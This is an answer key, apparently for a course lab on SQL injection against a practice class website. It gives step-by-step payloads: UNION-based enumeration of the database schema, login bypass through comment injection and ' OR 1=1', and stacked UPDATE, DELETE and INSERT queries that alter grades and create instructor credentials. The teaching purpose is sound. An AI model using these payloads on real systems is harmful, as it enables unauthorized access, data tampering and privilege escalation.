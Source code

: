 # SQL Injection Challenges SOLUTIONS

## 1. Use the INFO 310 site to see Alice's grade.

1. First, we need to find the name of the database:

```
' UNION SELECT 1,2,3,database();-- 
```
2. Next, we can find the name of all tables in this database:

```
' UNION SELECT 1,2,3,table_name FROM information_schema.TABLES WHERE table_schema='<database_name>';-- 
```

3. Now, we can look for the column names of the table of interest. This will allow us to search by elements other than student ID.

```
UNION SELECT 1,2,3,column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='<table_name>';-- 
```
4. Finally, you can view a specific entry in the table based on a column variable.

```
' OR <column_name> = <variable>;-- 
```

---

## 2. Use the instructor portal to make an announcement as Dr. Reifers that class is cancelled on Wednesday.

1. We can log in as an instructor by entering their email and ending our query there. This will then allow us to login without a password.

```
<instructor email>';-- 
```

2. Enter any text for the password and you can login!

### OR

1. You can use the classic 1=1 injection in place of an email. This will allow you to login with the first credentials listed in the SQL table.

```
' OR 1=1;-- 
```

2. Enter any text for the password and you can login!

---

## 3. Change your grade in the gradebook to a 4.0.

1. Use can use `UPDATE` to change entries in a specific table:

```
UPDATE <gradebook> SET <column_name> = <value> WHERE <other_column_name> = <other_value>;-- 
```
### OR

1. Use `DELETE` to remove a current entry with a specific column value.

```
'); DELETE FROM <table_name> WHERE <column_name> = <value>;-- 
```

2. Now, you can use `INSERT` to add a new entry with your updated grade. Make sure you also add all the other appropriate variables for all columns in the table.

```
'); INSERT INTO <table_name> (<column_name_1>, <column_name_2>, <column_name_3>, <column_name_4>) VALUES (<value_1>, <value_2>, <value_3>, <value_4>);-- 
```

--- 

## Give yourself instructor level privledges and make an announcement **as Bob** letting everyone know you hacked the INFO 310 website.

1. Find the column names for the login credential table the same way we did in the first challenge:

```
UNION SELECT 1,2,3,column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='<table_name>';-- 
```

2. Use `INSERT` to add an entry with your own credentials:

```
'); INSERT INTO <table_name> (<column_name_1>, <column_name_2>, <column_name_3>) VALUES (<value_1>, <value_2>, <value_3>);-- 
```
3. Login with your newly created credentials and post an announcement!